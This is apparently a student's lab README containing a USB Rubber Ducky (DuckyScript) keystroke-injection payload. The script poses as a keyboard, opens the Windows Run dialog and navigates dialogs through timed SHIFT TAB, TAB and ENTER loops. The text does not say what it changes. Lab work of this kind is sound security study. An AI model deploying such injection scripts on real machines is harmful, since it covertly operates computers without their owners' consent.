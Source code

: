 ### LAB 1 USB RUBBER DUCKY CODE AND VIDEO

<img src="https://github.com/gjentig4/lab_answers/assets/58633185/525e1a59-5222-4e40-9f99-ebd1a606b718" width="270" height="600" />


```
ATTACKMODE HID STORAGE
DELAY 1000 
VAR $T = 70

GUI r 
DELAY 1000

VAR $LOOP1 = 14
VAR $I = 1

WHILE ($I < $LOOP1)
    SHIFT TAB
    DELAY $T 
    $I = ($I + 1)
END_WHILE

DELAY 500
ENTER

VAR $J = 1
VAR $LOOP2 = 6
WHILE ($J < $LOOP2)
    SHIFT TAB
    DELAY $T 
    $J = ($J + 1)
END_WHILE

DELAY $T
ENTER
REM TEST
DELAY 500
ENTER
DELAY 500
ENTER
DELAY 500
SHIFT TAB
DELAY $T
SHIFT TAB
DELAY $T
SHIFT TAB
DELAY $T
ENTER
DELAY 300
ESCAPE
DELAY 600


VAR $LOOP3 = 9
VAR $K = 1

WHILE ($K < $LOOP3)
    SHIFT TAB
    DELAY $T 
    $K = ($K + 1)
END_WHILE


ENTER
DELAY 500
TAB
DELAY $T
ENTER
DELAY 500

VAR $L = 1

WHILE ($L < $LOOP3)
    SHIFT TAB
    DELAY $T 
    $L = ($L + 1)
END_WHILE

ENTER
```


